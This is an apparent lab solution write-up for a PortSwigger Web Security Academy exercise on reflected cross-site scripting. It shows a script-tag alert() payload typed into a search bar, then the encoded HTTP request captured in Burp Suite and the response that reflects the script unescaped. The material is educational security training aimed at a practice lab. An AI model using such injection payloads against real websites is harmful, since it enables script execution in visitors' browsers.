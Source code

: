 ```yaml
---
title: >
  Solution to Lab: Reflected XSS into HTML context with nothing encoded
---
```


The following is a solution to [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded).

In the UI of the lab, enter the following payload into the search bar and click Search:
`<script>alert("howdy");</script>`

This step is demonstrated in the screenshot below:
![A screenshot of the search bar with the alert("howdy"); payload as the search term](/wsa-labs/docs/assets/alert()-poc-1.png)

As a result, an alert box appears in the UI, with the text from the alert() payload. This is demonstrated in the screenshot below:
![A screenshot of the alert box with the message "howdy"](/wsa-labs/docs/assets/alert()-poc-2.png)

The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

~~~
GET /?search=%3Cscript%3Ealert%28%22howdy%22%29%3B%3C%2Fscript%3E HTTP/2
Host: 0ade007003023308825a84e400020013.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ade007003023308825a84e400020013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


~~~

The following is a snippet of the HTTP response to the above request.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4876

<!DOCTYPE html>
<html>
...
<h1>0 search results for '<script>alert("howdy");</script>'</h1>
...
~~~

This shows that the application reflected the user input inside of the response.
